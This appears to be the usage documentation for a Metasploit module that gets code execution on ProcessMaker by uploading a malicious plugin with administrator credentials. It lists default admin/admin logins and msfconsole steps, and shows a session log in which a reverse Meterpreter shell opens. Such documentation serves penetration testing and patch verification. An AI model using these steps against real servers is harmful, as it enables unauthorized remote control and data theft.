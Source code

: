 ## Description

  This module will generate and upload a plugin to ProcessMaker resulting in execution of PHP code as the web server user.

  Credentials for a valid user account with Administrator roles is required to run this module.


## Vulnerable Application

  [ProcessMaker](https://www.processmaker.com/) workflow management software allows public and private organizations to automate document intensive, approval-based processes across departments and systems. Business users and process experts with no programming experience can design and run workflows.

  This module has been tested successfully on ProcessMaker versions:

  * 1.6-4276, 2.0.23, 3.0 RC 1, 3.2.0 on Windows 7 SP 1
  * 3.2.0 on Debian Linux 8

  Source and Installers:

  * [ProcessMaker](https://sourceforge.net/projects/processmaker/files/ProcessMaker/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_plugin_upload`
  3. Do: `set RHOST [IP]`
  4. Do: `set USERNAME [USERNAME]` (default: `admin`)
  5. Do: `set PASSWORD [PASSWORD]` (default: `admin`)
  6. Do: `set WORKSPACE [WORKSPACE]` (default: `workflow`)
  7. Do: `run`
  8. You should get a session


## Options

  **Username**

  The username for a ProcessMaker user with Administrator roles (default: `admin`).

  **Password**

  The password for the ProcessMaker user (default: `admin`).

  The default password for the `admin` user is `admin` on ProcessMaker versions 1.x and 2.x.

  For ProcessMaker 3.x onwards, the default password is specified during installation and cannot be the same as the username.

  However; when creating a new workspace a new user with Administrator roles is also created. The default username and password for the new user are `admin` and `admin` respectively.

  **Workspace**

  The ProcessMaker workspace for which the specified user has Administrator roles. (default: `workflow`)


## Scenarios

  ```
  msf > use exploit/multi/http/processmaker_plugin_upload 
  msf exploit(processmaker_plugin_upload) > set rhost 172.16.191.202
  rhost => 172.16.191.202
  msf exploit(processmaker_plugin_upload) > set username admin
  username => admin
  msf exploit(processmaker_plugin_upload) > set password admin
  password => admin
  msf exploit(processmaker_plugin_upload) > set workspace sample
  workspace => sample
  msf exploit(processmaker_plugin_upload) > set rport 8080
  rport => 8080
  msf exploit(processmaker_plugin_upload) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] Authenticating as user 'admin'
  [+] 172.16.191.202:8080 Authenticated as user 'admin'
  [*] 172.16.191.202:8080 Uploading plugin 'zqkMpDOiIlNEvhkNnV' (23552 bytes)
  [*] Sending stage (33986 bytes) to 172.16.191.202
  [*] Meterpreter session 1 opened (172.16.191.181:4444 -> 172.16.191.202:36592) at 2017-06-10 04:21:25 -0400
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV-.tar
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV.php
  [+] Deleted ../../shared/sites/sample/files/input/zqkMpDOiIlNEvhkNnV/class.zqkMpDOiIlNEvhkNnV.php

  meterpreter > getuid
  Server username: user (1000)
  meterpreter > sysinfo 
  Computer    : debian
  OS          : Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.43-2 (2017-04-30) x86_64
  Meterpreter : php/linux
  ```


